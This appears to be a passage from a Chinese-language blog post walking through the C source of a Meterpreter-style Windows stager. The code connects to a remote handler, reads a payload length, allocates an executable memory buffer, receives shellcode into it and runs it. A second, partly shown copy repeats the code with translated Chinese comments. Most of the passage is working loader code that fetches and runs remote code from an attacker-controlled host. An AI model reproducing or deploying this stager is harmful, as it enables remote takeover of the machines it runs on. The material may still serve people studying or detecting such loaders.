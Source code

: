 ```c
	if (count != 4 || size <= 0)
		punt(my_socket, "read a strange or incomplete length value\n");

	/* allocate a RWX buffer */
	buffer = VirtualAlloc(0, size + 5, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (buffer == NULL)
		punt(my_socket, "could not allocate buffer\n");

	/* prepend a little assembly to move our SOCKET value to the EDI register
	   thanks mihi for pointing this out
	   BF 78 56 34 12     =>      mov edi, 0x12345678 */
	buffer[0] = 0xBF;

	/* copy the value of our socket to the buffer */
	memcpy(buffer + 1, &my_socket, 4);

	/* read bytes into the buffer */
	count = recv_all(my_socket, buffer + 5, size);

	/* cast our buffer as a function and call it */
	function = (void (*)())buffer;
	function();

	return 0;
}
```

其他的函数我并没有列出来，里面的实现应该也很明白，就是我之前说的流程

**然后是先知社区的，其实也就是把上一份代码注释翻译了一下**

```c
//主函数
int main(int argc, char * argv[]) {
    ULONG32 size;
    char * buffer;
    //创建函数指针，方便XXOO
    void (*function)();
    winsock_init(); //套接字初始化
    //获取参数，这里随便写，接不接收无所谓，主要是传递远程主机IP和端口
    //这个可以事先定义好
    if (argc != 3) {
        printf("%s [host] [port] ^__^ \n", argv[0]);
        exit(1);
    }

    /*连接到处理程序，也就是远程主机 */
    SOCKET my_socket = my_connect(argv[1], atoi(argv[2]));

    /* 读取4字节长度
    *这里是meterpreter第一次发送过来的
    *4字节缓冲区大小2E840D00，大小可能会有所不同,当然也可以自己丢弃，自己定义一个大小
    */
    //是否报错
    //如果第一次不是接收的4字节那么就退出程序
    int count = recv(my_socket, (char *)&size, 4, 0);
    if (count != 4 || size <= 0)
        punt(my_socket, "read length value Error\n");

    /* 分配一个缓冲区 RWX buffer */
    buffer = VirtualAlloc(0, size + 5, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (buffer == NULL)
        punt(my_socket, "could not alloc buffer\n");

```
